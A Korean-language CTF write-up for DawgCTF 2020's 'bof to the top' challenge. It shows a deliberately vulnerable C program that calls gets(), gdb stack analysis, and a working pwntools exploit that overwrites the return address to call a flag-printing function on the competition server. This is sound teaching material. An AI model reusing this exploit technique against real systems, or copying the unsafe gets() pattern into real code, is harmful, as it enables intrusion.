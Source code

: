 # [WriteUp]DawgCTF 2020 - bof to the top

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Overview

### source code

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}

```

`get_audition_info()`에서 `gets()`로 입력을 받아서 buffer overflow(BOF)가 발생한다. `audition()`에 플래그를 주는 코드가 있는데, BOF로 실행 흐름을 조작해서 `audition()`을 실행시켜야 하는 것 같다. `time`이 1200이고 `room_num`이 366이면 플래그를 주기 때문에 `audition(1200, 366);`을 실행시키면 될 것 같다.

### Mitigation

```shell
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

canary가 없기 때문에 return address를 그냥 덮을 수 있고, PIE가 걸려 있지 않기 때문에 `audition()`의 주소를 그대로 가져와서 사용할 수 있다.

---

## Exploit plan

```shell
gdb-peda$ r
Starting program: /home/dr-nibe/DawgCTF2020/bof 
Welcome to East High!
We're the Wildcats and getting ready for our spring musical
We're now accepting signups for auditions!
What's your name?
AAAA
What song will you be singing?
BBBB
...
gdb-peda$ x/40wx $esp
0xffffd0d0:	0xffffd0ec	0x0804d1a0	0x0000002b	0x080491d0
0xffffd0e0:	0x00000001	0x00000000	0xf7e49abd	0x42424242
0xffffd0f0:	0xf7fb4d00	0x0000002a	0xffffd138	0xf7e3cd1b
0xffffd100:	0xf7fb4d20	0x0000000a	0x0000002a	0xf7ed289b
0xffffd110:	0xf7fb2a60	0xf7fb4000	0xf7fb4dbc	0x4141002a
0xffffd120:	0xff004141	0xf7fe8e24	0xffffd194	0x0804c000
0xffffd130:	0xf7fb4000	0xf7fb4000	0xffffd158	0x08049263
0xffffd140:	0x0804a0a0	0xffffd204	0xffffd20c	0x0804922a
0xffffd150:	0xf7fe39f0	0x00000000	0xffffd168	0x08049286
0xffffd160:	0xf7fb4000	0xf7fb4000	0x00000000	0xf7de9fb9
gdb-peda$ i r ebp
ebp            0xffffd158          0xffffd158
```

`name`에 `"AAAA"`를 입력하고 `song`에 `"BBBB"`를 입력한 후 스택의 상태이다. `name`은 `0xffffd11e`부터 저장되고, `song`은 `0xffffd0ec`부터 저장된다.

`ebp`가 `0xffffd158`이므로 `get_audition_info()`의 return address는 `0xffffd15c`에 위치한다. 이 주소는 `name`과 `0x3e`만큼 떨어져 있다.

32비트 시스템의 calling convention을 생각해 보면, 함수가 실행될 때 그 함수의 return address를 먼저 `pop`하고 나서 매개변수들을 차례로 `pop`한다. 따라서 스택의 낮은 주소부터 `audition()`의 주소 - dummy(4바이트) - 1200 - 366 순서로 배치해 두면 `audition(1200, 366);`이 호출될 것이다. 그러면 플래그를 얻을 수 있기 때문에 그 다음에 dummy 때문에 오류가 나는 건 신경쓰지 않아도 된다.

---

## Exploit

```python
# exploit_bof.py

from pwn import *

# r = process("./bof")
r = remote("ctf.umbccd.io", 4000)

audition = 0x8049182 # address of audition()

payload = "A" * 0x3e # dummy
payload += p32(audition)
payload += "BBBB" # dummy
payload += p32(1200) # first parameter
payload += p32(366) # second parameter

r.recvuntil("What's your name?\n")
r.sendline(payload)
r.recvuntil("What song will you be singing?\n")
r.sendline("")

r.interactive()
```

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ python exploit_bof.py
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] Switching to interactive mode
DawgCTF{wh@t_teAm?}
[*] Got EOF while reading in interactive
$  
```

